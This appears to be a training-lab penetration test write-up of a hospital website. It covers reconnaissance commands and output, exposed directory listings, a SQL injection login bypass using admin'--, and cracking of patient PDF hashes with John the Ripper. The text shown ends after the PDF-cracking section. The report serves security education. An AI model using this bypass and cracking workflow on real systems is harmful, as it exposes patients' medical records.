# 🏥 Mediroza General Hospital — Black-Box Penetration Test

<p align="center">
  
  
  
  
  
</p>

A complete black-box penetration test conducted against **Mediroza General Hospital** (`https://medirozahospital.com`) as part of the **Networkwalks Cybersecurity & Ethical Hacking Program — Batch B083, Week 4**.

> [!WARNING]
> **Disclaimer Notice:** This repository contains confidential security information, including real findings and personal data from an authorised penetration test. It is intended for private use only.

---

## 📖 Table of Contents

- [Overview](#-overview)
- [Objectives](#-objectives)
- [Scope and Authorisation](#-scope-and-authorisation)
- [Milestones](#-milestones)
- [Tools and Technologies](#-tools-and-technologies)
- [Limitations Encountered](#-limitations-encountered)
- [Attack Path — Step by Step](#-attack-path--step-by-step)
- [Findings Summary](#-findings-summary)
- [Risk Register](#-risk-register)
- [Recommendations](#-recommendations)
- [Disclaimer](#-disclaimer)
- [Author](#-author)

---

## 🎯 Overview

| Field | Detail |
|-------|--------|
| **Target** | `https://medirozahospital.com` |
| **Engagement Type** | Black-Box Penetration Test & Vulnerability Assessment |
| **Duration** | 5 days |
| **Environment** | Kali Linux (VM) + macOS host + Chrome / Firefox / Safari |
| **Program** | Networkwalks Cybersecurity Internship — Batch B083, Week 4 |
| **Overall Risk Posture** | 🔴 **CRITICAL** |

The engagement simulated a real-world, unauthenticated attacker with no prior knowledge of the target's credentials, source code, or internal architecture.

**Every finding in this repository was demonstrated through proof-of-concept exploitation — nothing is theoretical.**

---

## 🎓 Objectives

| Milestone | Objective |
|-----------|-----------|
| **M1** | Attack the website and retrieve three confidential patient PDF lab reports |
| **M2** | Crack the encryption on all three retrieved PDF files, using more than one approach |
| **M3** | Find the critical data exposure on the client server — employee salaries and shareholder details |
| **M4** | Produce a professional penetration testing report for the client |

---

## 📋 Scope and Authorisation

| Item | Detail |
|------|--------|
| **In Scope** | `medirozahospital.com` and all publicly reachable sub-paths |
| **Out of Scope** | Social engineering, denial-of-service, testing outside the agreed domain |
| **Authorisation** | Written permission granted by Mediroza General Hospital (approved via Networkwalks) |
| **Rules of Engagement** | 🚫 No social engineering · 🚫 No DoS · 🚫 No testing outside scope · 🤐 No discussing findings until the reveal session |

---

## ✅ Milestones

| Milestone | Objective | Status |
|-----------|-----------|:------:|
| **M1** | Retrieve three confidential patient PDF lab reports | ✅ Complete |
| **M2** | Crack encryption on all three retrieved PDFs | ✅ Complete |
| **M3** | Find staff salaries and shareholder details | ✅ Complete |
| **M4** | Write the professional pentest report | ✅ Complete |

---

## 🛠️ Tools and Technologies

### Environment

| Tool | Purpose |
|------|---------|
| **Kali Linux** (VirtualBox VM) | Primary attack platform for command-line tooling |
| **macOS** | Host operating system for browser-based testing |
| **VirtualBox Shared Folder (`VMSHARE`)** | File transfer of retrieved PDFs and the database backup between host and Kali VM |

### 🔍 Reconnaissance

| Tool | Purpose |
|------|---------|
| `whois` | Domain registration and ownership lookup |
| `nslookup` | DNS resolution (domain → IP address) |
| `whatweb` | Web technology fingerprinting (CMS, server, headers) |
| `curl` | HTTP header inspection; retrieval of `robots.txt` and `sitemap.xml` |
| `wafw00f` | Web Application Firewall detection |
| `dnsrecon` | Full DNS record enumeration (A, MX, TXT, SRV, NS, SOA) |

### 📂 Enumeration

| Tool | Purpose |
|------|---------|
| `gobuster` | Directory and file brute-forcing (blocked by Cloudflare — see Limitations) |
| **Firefox** | Manual enumeration — browser solves Cloudflare's JS challenge automatically |
| **Google Chrome** | Manual enumeration, input testing, screenshot evidence capture |
| **Safari (macOS)** | Cross-browser verification of findings |

### 💉 Exploitation

| Tool | Purpose |
|------|---------|
| **Manual SQL injection (browser)** | Authentication bypass at the patient login form using the payload `admin'--` |

### 🔓 Password Cracking

| Tool | Purpose |
|------|---------|
| **Networkwalks Hash Calculator** | Browser-based extraction of `$pdf$` password hashes |
| **Networkwalks Password Cracker** | Browser-based dictionary attack against PDF hashes |
| `pdf2john` | Extraction of PDF hashes in John the Ripper–compatible format |
| **John the Ripper (JtR)** | Offline hash cracking with dictionary and rules |
| `rockyou.txt` | Standard password wordlist |
| `qpdf` | Independent verification of decrypted PDFs |

---

## ⚠️ Limitations Encountered

### 1. Cloudflare JavaScript Challenge Blocked Automated Tools

The target sits behind a LiteSpeed web server and a Cloudflare edge layer that issues a **JavaScript challenge** to any HTTP client that cannot execute JavaScript. As a result, `gobuster` could not enumerate the site — every request without a real browser engine received the same challenge page (`One moment, please...`).

The wildcard length of the challenge page kept changing on each request (12206, 12181, 12013, 12127, etc.) because the challenge contains a random token. Excluding a fixed length was not possible, and excluding status 200 filtered out every response.

**Workaround:** All directory and file discovery was performed manually through a standard web browser (Chrome, Firefox, Safari), which solves the challenge automatically.

### 2. Five-Day Testing Window

The five-day engagement window limited deeper exploration of additional attack surfaces such as cPanel service records and SRV-based mail infrastructure discovered during DNS enumeration.

### 3. Scope Restrictions

Testing was confined to the external web application. Internal networks, physical security, and social engineering were explicitly out of scope per the rules of engagement.

### 4. Two Authentication Endpoints with the Same Weakness

The site exposes both a **patient login** (`/patient/login.php`) and a **staff login** (`/staff/login.php`). Both endpoints exhibit identical authentication weaknesses. The report documents the successful bypass at the patient login, since that is the objective-relevant entry point required to reach the patient reports.

---

## 🕵️ Attack Path — Step by Step

### Phase 1 — Passive Reconnaissance

**Commands run:**

```bash
whois medirozahospital.com
nslookup medirozahospital.com
whatweb medirozahospital.com
curl -I https://medirozahospital.com
wafw00f medirozahospital.com
dnsrecon -d medirozahospital.com
```

**`whois` output:**

```
Domain Name: MEDIROZAHOSPITAL.COM
Registry Domain ID: 3132326963_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.namecheap.com
Registrar: NameCheap, Inc.
Registrar IANA ID: 1068
Registrar Abuse Contact Email: abuse@namecheap.com
Domain Status: clientTransferProhibited
Name Server: DNS1.NAMECHEAPHOSTING.COM
Name Server: DNS2.NAMECHEAPHOSTING.COM
DNSSEC: unsigned
```

**`nslookup` output:**

```
Server:  8.8.8.8
Address: 8.8.8.8#53

Non-authoritative answer:
Name:    medirozahospital.com
Address: 199.188.201.16
```

**`whatweb` output (default user-agent):**

```
https://medirozahospital.com [403 Forbidden] Country[UNITED STATES][US],
HTML5, HTTPServer[LiteSpeed], IP[199.188.201.16], LiteSpeed,
PoweredBy[LiteSpeed], Title[403 Forbidden],
UncommonHeaders[x-turbo-charged-by]
```

**`whatweb` output (browser user-agent):**

```
https://medirozahospital.com [200 OK] Country[UNITED STATES][US],
Email[info@medirozahospital.com], HTML5, HTTPServer[LiteSpeed],
IP[199.188.201.16], LiteSpeed, Meta-Author[Mediroza IT Department],
MetaGenerator[Mediroza CMS 1.4.2], PoweredBy[Mediroza],
Title[Mediroza General Hospital | Compassionate Care, Advanced Medicine],
UncommonHeaders[x-turbo-charged-by]
```

**`curl -I` output:**

```
HTTP/2 200
content-type: text/html
last-modified: Fri, 04 Sep 2026 02:03:12 GMT
server: LiteSpeed
x-turbo-charged-by: LiteSpeed
```

**`wafw00f` output:**

```
[*] Checking https://medirozahospital.com
[+] The site https://medirozahospital.com is behind LiteSpeed
    (LiteSpeed Technologies) WAF.
```

**`dnsrecon` output (summary):**

```
SOA  dns1.namecheaphosting.com 156.154.132.200
NS   dns1.namecheaphosting.com 156.154.132.200
NS   dns2.namecheaphosting.com 156.154.133.200
MX   mx1-hosting.jellyfish.systems 162.255.118.28
MX   mx2-hosting.jellyfish.systems 162.255.118.29
MX   mx3-hosting.jellyfish.systems 162.255.118.13
A    medirozahospital.com 199.188.201.16
TXT  medirozahospital.com v=spf1 +a +mx +ip4:199.188.201.7 +ip4:199.188.201.38 include:spf.web-hosting.com ^all
TXT  _dmarc.medirozahospital.com v=DMARC1; p=none;
SRV  _caldav._tcp.medirozahospital.com     medirozahospital.com 199.188.201.16 2079
SRV  _carddavs._tcp.medirozahospital.com   medirozahospital.com 199.188.201.16 2080
SRV  _carddav._tcp.medirozahospital.com    medirozahospital.com 199.188.201.16 2079
SRV  _caldavs._tcp.medirozahospital.com    medirozahospital.com 199.188.201.16 2080
SRV  _autodiscover._tcp.medirozahospital.com cpanelemaildiscovery.cpanel.net 184.94.203.15 443
12 Records Found
```

**Key findings:**

- Registrar: **NameCheap, Inc.**
- Resolved IP: **199.188.201.16**
- CMS: **Mediroza CMS 1.4.2** (custom in-house)
- Server stack: **Cloudflare → LiteSpeed edge → OpenResty 1.31.1.1**
- WAF: **LiteSpeed WAF** + Cloudflare
- Mail infrastructure: cPanel-based
- SPF record present; DMARC policy `p=none` (no enforcement)
- 12 SRV records (cPanel autodiscover endpoints)

---

### Phase 2 — Information Disclosure via `robots.txt`

**Commands run:**

```bash
curl https://medirozahospital.com/robots.txt
curl https://medirozahospital.com/sitemap.xml
```

**`robots.txt` content (real):**

```
# robots.txt
User-agent: *
Disallow: /patient/
Disallow: /staff/
Disallow: /old/
Sitemap: https://medirozahospital.com/sitemap.xml
```

**`sitemap.xml` content (real):**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url><loc>https://medirozahospital.com/index.html</loc></url>
  <url><loc>https://medirozahospital.com/about.html</loc></url>
  <url><loc>https://medirozahospital.com/doctors.html</loc></url>
  <url><loc>https://medirozahospital.com/contact.html</loc></url>
</urlset>
```

**Impact:** Three sensitive directories publicly disclosed. This became the roadmap for the entire engagement.

**📸 Figure 1 — robots.txt disclosure**


*Figure 1 — robots.txt publicly disclosing /patient/, /staff/, and /old/.*

---

### Phase 3 — Automated Enumeration Attempt (Blocked)

**Commands attempted:**

```bash
gobuster dir -u https://medirozahospital.com -w /usr/share/wordlists/dirb/common.txt -x php,html
gobuster dir -u https://medirozahospital.com -w ... -a "Mozilla/5.0..." --exclude-length 12206
gobuster dir -u https://medirozahospital.com -w ... -a "Mozilla/5.0..." -t 30 --delay 0s -b 200
```

**Real gobuster error output:**

```
the server returns a status code that matches the provided options for non existing urls.
https://medirozahospital.com/e8fd8738-ab78-4dda-89de-8ec340447ea2 => 200 (Length: 12206).
Please exclude the response length or the status code or set the wildcard option.
```

Followed by a second run:

```
the server returns a status code that matches the provided options for non existing urls.
https://medirozahospital.com/1cf07551-305d-469f-b69d-5b83931ab3da => 200 (Length: 12013).
Please exclude the response length or the status code or set the wildcard option.
```

Final run with `-b 200` finished with zero findings — every path returned 200 with the challenge page.

**Confirmation:**

```bash
curl -A "Mozilla/5.0..." https://medirozahospital.com/reports/ | head -30
```

**Real output:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf8">
  <meta name="viewport" content="width=device-width,initial-scale=1.0">
  <script>
      (function(){
          setTimeout(function(){
              window.location.reload();
          }, 5000);
      }())
  </script>
  <title>One moment, please...</title>
```

**Conclusion:** The WAF's JS challenge blocks all non-browser HTTP clients. Automated enumeration is not possible on this target.

---

### Phase 4 — Manual Enumeration via Browsers

**Browsers used:** Firefox, Google Chrome, Safari

**URLs visited and real results:**

| Directory | Real result |
|-----------|-------------|
| `/staff/` | Directory listing — `login.php` (3 KB) |
| `/patient/` | Directory listing — `reports/`, `download.php` (1 KB), `error_log` (243 KB), `login.php` (4 KB), `logout.php` (1 KB), `portal.php` (3 KB) |
| `/old/` | Directory listing — `mediroza_db_backup_2019.sql` (7 KB) |
| `/patient/login.php` | Patient Portal login form |
| `/staff/login.php` | Staff Login form |
| `/patient/reports/` | 403 Forbidden |

**📸 Figure 2 — /patient/ directory listing**


*Figure 2 — Unauthenticated directory listing at /patient/ exposing all application files.*

**📸 Figure 3 — /old/ directory listing**


*Figure 3 — Unauthenticated directory listing at /old/ exposing the database backup.*

---

### Phase 5 — Authentication and Input Handling Analysis

**Tests run in Chrome at `/patient/login.php`:**

| # | Username | Password | Real result |
|---|----------|----------|-------------|
| 1 | `admin` | `wrongpassword` | "Invalid username or password" |
| 2 | `testuser` | `wrongpassword` | **Identical** error — no user enumeration |
| 3 | `test` | `x` (×5 attempts) | **Identical** error every time — no lockout, no rate limiting |
| 4 | `'` (single quote) | `x` | Accepted by form, generic error, **no SQL error leaked** |

**Findings:**

- No user enumeration (good practice)
- **No rate limiting, no account lockout, no CAPTCHA**
- Single metacharacter accepted without client-side filtering → **input handling weakness**
- Custom in-house CMS → higher likelihood of unparameterised queries

**📸 Figure 4 — Failed login with generic error**


*Figure 4 — Patient login form returning generic error after failed credentials (no user enumeration).*

---

### Phase 6 — Authentication Bypass (Successful)

**Payload submitted at `/patient/login.php`:**

| Field | Value |
|-------|-------|
| Username | `admin'--` |
| Password | `x` (any value) |

**What the payload does:**

- The single quote (`'`) terminates the expected string in the backend SQL query.
- The double dash (`--`) is a SQL comment marker that causes everything after it to be ignored by the database — including the password comparison check.
- Result: the query returns the first matching user record (`admin`) as if the correct password had been supplied.

**Real result:** 🔓 **Authentication bypassed.** Session redirected to `/patient/portal.php`, and the patient portal loaded with "My lab reports" listing three encrypted patient PDF reports.

**📸 Figure 5 — SQL injection payload in the login form**


*Figure 5 — Payload `admin'--` typed into the patient login form before submission.*

---

### Phase 7 — Retrieve the Three Patient PDFs (M1 Complete)

**Real PDFs listed in the portal:**

| # | Report | Lab Ref | Date | Format |
|---|--------|---------|------|--------|
| 1 | Pathology Report — S. Dlamini | LR-2024-1187 | 2024-11-04 | PDF (encrypted) |
| 2 | Pathology Report — P. Reddy | LR-2024-1192 | 2024-11-05 | PDF (encrypted) |
| 3 | Pathology Report — E. Thompson | LR-2024-1205 | 2024-11-06 | PDF (encrypted) |

**Real downloaded files:**

- `patient_report_1.pdf` (3.6 KB)
- `patient_report_2.pdf` (3.5 KB)
- `patient_report_3.pdf` (3.6 KB)

**📸 Figure 6 — Patient portal with three downloadable PDFs**


*Figure 6 — Patient portal reached via the authentication bypass, listing three downloadable pathology reports.*

**Deliverable:** ✅ Proof of access + three retrieved PDFs.

---

### Phase 8 — PDF Cracking (M2 Complete)

**Method 1 — Networkwalks browser tools (PDFs 1 and 2):**

**Real hashes extracted:**

```
patient_report_1.pdf:
$pdf$2*3*128*4294967292*1*32*3361663365326235643333353531613238303137316238333238373763353339*32*ef16c52ab8efce2c18c79e9d28895b5928bf4e5e4e758a4164004e56fffa0108*32*c431fab9cc5ef7b59c244b61b745f71ac5ba427b1b9102da468e77127f1e69d6

patient_report_2.pdf:
$pdf$2*3*128*4294967292*1*32*3166346338373236356437626464363834663737303265633666363264616463*32*39f4e6b0aedf12344c340ffb39f8905528bf4e5e4e758a4164004e56fffa0108*32*408b37bcf12da873d7f2840f3c1b917a023961ded4c8164d38e46e9655e66775

patient_report_3.pdf:
$pdf$2*3*128*4294967292*1*32*3261393066326130336634386337323631306164373264323130316137616538*32*5090fa0a5dba99cb97c9d140cd23119428bf4e5e4e758a4164004e56fffa0108*32*58e03d692cf37b50b0b5eaa189fcbd372260a949c8992ad7b44fd13e2b40c1f8
```

**Real crack results from Networkwalks Password Cracker:**

- `patient_report_1.pdf` → `123456` (cracked on 1st attempt)
- `patient_report_2.pdf` → `password` (cracked from built-in dictionary)

**Real output for report 3 (failed):**

```
Tried: 100 / 100       9 pw/s       100%
[!] Exhausted wordlist. No match.

ACCESS DENIED
Not cracked with this wordlist. Load a larger wordlist and run the attack again.
```

**Method 2 — John the Ripper (for PDF 3):**

**Real John output:**

```
Loaded 3 password hashes with 3 different salts (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 3 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)
123456           (?)
!@#$%^&          (?)
3g 0:00:00:01 DONE (2026-09-29 03:50) 1.818g/s 43791p/s 43869c/s
```

**📸 Figure 7 — John the Ripper crack output**


*Figure 7 — John the Ripper output: all three PDF hashes cracked in under one second.*

**Final real passwords:**

| # | PDF | Password | Method |
|---|-----|----------|--------|
| 1 | `patient_report_1.pdf` | `123456` | Networkwalks Password Cracker |
| 2 | `patient_report_2.pdf` | `password` | Networkwalks Password Cracker |
| 3 | `patient_report_3.pdf` | `!@#$%^&` | John the Ripper + rockyou.txt |

**Real verification:**

```
✅ PDF1 OK
✅ PDF2 OK
✅ PDF3 OK
```

**📸 Figures 8, 9, 10 — Decrypted PDF contents**


*Figure 8 — Recovered contents of patient_report_1.pdf.*

